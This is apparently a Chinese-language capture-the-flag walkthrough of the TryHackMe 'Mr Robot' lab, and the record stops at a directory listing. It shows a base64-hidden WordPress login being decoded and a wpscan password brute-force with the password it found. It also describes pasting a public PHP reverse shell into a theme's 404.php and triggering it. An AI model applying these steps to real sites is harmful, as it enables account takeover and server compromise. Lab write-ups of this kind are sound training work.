 ```
[+] Elapsed time: 00:22:17
```

# 首页命令行支持6个命令，研究了半天，没看到有什么有用的信息
```
prepare    --->显示动画：whoismyrobot.com
fsociety   --->显示动画：are you ready to join fsociety
inform     --->显示四张图片，表达了一些观点，没看出来有什么线索
question   --->显示四张图片，分别批判了patriot，executive，capitalist，businessman
wakeup	   --->显示一个动画，没有文字
join	   --->留下一个邮箱
```


# 在http://10.10.180.172/license.txt，打开f12，找到base64加密过的隐藏线索
```
what you do just pull code from Rapid9 or some s@# % since when did you become a script kitty?
do you want a password or something?
ZWxsaW90OkVSMjgtMDY1Mgo=
```

# 解密后：
```
elliot:ER28-0652
```

# 登陆进去以后，在users里收集到两个用户名和邮箱
```
elliot     Elliot Alderson	  elliot@mrrobot.com
mich05654  krista Gordon	  kgordon@therapist.com
```

# 用下载的字典爆破mich05654账号
```
wpscan --url http://10.10.180.172/ --usernames mich05654 --passwords /root/tryhackme/mrrobot/fsocity.dic

[!] Valid Combinations Found:
 | Username: mich05654, Password: Dylan_2791
```

# 然而登陆进去好像没什么有用的信息？

# 回到elliot登录界面
在后台页面 Appearace->Theme Editer可以编辑在使用皮肤里面的php代码，我们选择404.php这个文件，上传一个反弹shell
使用这个payload ：
```https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php```
把代码复制到404.php,修改反弹主机信息
开启监听
在前台页面随便输入一个不存在的页面，触发反弹shell    -->http://10.10.180.172/asdasddasdas


# 在/home/robot目录找到key-2-of-3.txt文件，但是webshell没有读权限
在同目录找到一个哈希文件
```
$ ls -alh
ls -alh
total 16K